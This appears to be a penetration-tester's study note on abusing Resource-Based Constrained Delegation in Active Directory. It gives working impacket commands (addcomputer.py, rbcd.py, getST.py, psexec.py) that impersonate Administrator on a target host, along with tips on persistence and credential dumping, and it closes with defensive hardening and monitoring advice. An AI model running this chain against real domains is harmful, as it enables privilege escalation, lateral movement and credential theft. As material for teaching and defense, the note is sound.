

# 07 - Resource-Based Constrained Delegation (RBCD) Abuse

## 1. Executive Summary

RBCD is one of the most useful AD privesc primitives because the delegation right lives on the **target** (the resource), in its **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute — and that's just an ACL-writable attribute. If you can **write** to a computer object (GenericWrite/GenericAll/WriteProperty, or via shadow creds), you set RBCD so that **a computer account you control** can request Kerberos service tickets **as any user** (including a domain admin) to that target → local admin / code exec on it. The classic chain: create a machine account (any domain user can, by default `MachineAccountQuota=10`), point RBCD at it, then S4U.

## 2. Concept Overview

**S4U2Self** lets a service get a ticket to itself *for* any user; **S4U2Proxy** then forwards it to another service the account is allowed to delegate to. RBCD flips the trust direction: the target lists which accounts may act on behalf of others **to it** (`msDS-AllowedToActOnBehalfOfOtherIdentity`, an SD referencing the attacker's computer SID). The attacker's computer account (with an SPN) then runs S4U2Self+S4U2Proxy to mint a ticket as `Administrator` to the target's service (CIFS/HOST/etc.).

## 3. Enumeration

```bash
# BloodHound: GenericWrite/GenericAll/WriteProperty over a computer = AddAllowedToAct edge
# MachineAccountQuota (can I add a computer?)
crackmapexec ldap <dc> -u user -p pw -M maq
Get-DomainComputer <target> -Properties msds-allowedtoactonbehalfofotheridentity
```

## 4. Exploitation

```bash
# 1) Create a controlled computer account (default quota allows it)
addcomputer.py -computer-name 'EVIL$' -computer-pass 'Pass123' domain/user:pw -dc-ip <dc>
#   (Windows: Powermad New-MachineAccount)

# 2) Set RBCD on the target to trust EVIL$
rbcd.py -delegate-from 'EVIL$' -delegate-to 'TARGET$' -action write domain/user:pw -dc-ip <dc>
#   (Windows: Set-ADComputer TARGET -PrincipalsAllowedToDelegateToAccount EVIL$)

# 3) S4U: get a service ticket to TARGET as Administrator
getST.py -spn cifs/target.domain -impersonate Administrator -dc-ip <dc> 'domain/EVIL$:Pass123'
export KRB5CCNAME=Administrator.ccache

# 4) Use it
psexec.py -k -no-pass target.domain     # or secretsdump / smbexec
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Leave RBCD configured (subtle) + the EVIL$ machine account → re-impersonate anytime.

## 7. Post-Exploitation / Data Access
- SYSTEM on the target host → LSASS/creds, lateral movement; if target is a DC-adjacent/Tier-0 host, path to domain.

## 8. Defense & Hardening
1. Set **`MachineAccountQuota = 0`** (stop low-priv users adding computers); restrict who can write computer objects (tighten ACLs — kills the AddAllowedToAct edge).
2. Monitor changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` (event 5136); add sensitive accounts to **Protected Users** / mark "Account is sensitive and cannot be delegated".
3. Audit BloodHound for write paths to computers; alert on new machine accounts + S4U2Proxy from unexpected hosts.

## 9. Chaining & Related Notes
- Often reached via **[[06 - Shadow Credentials msDS-KeyCredentialLink Abuse]]** or **[[17 - ACL Abuse]]** (A-36); coercion+relay to LDAP also sets RBCD ([[04 - AD CS NTLM Relay ESC8 and Coercion]]).
- Delegation siblings: **[[08 - Unconstrained Delegation Abuse]]**, **[[09 - Constrained Delegation Abuse]]**. Tickets: **[[07 - Pass the Ticket (PtT)]]** (A-36).

## 10. Tools
`addcomputer.py`, `rbcd.py`, `getST.py` (impacket), `Powermad`, `Rubeus` (s4u), `bloodhound`, `crackmapexec`.
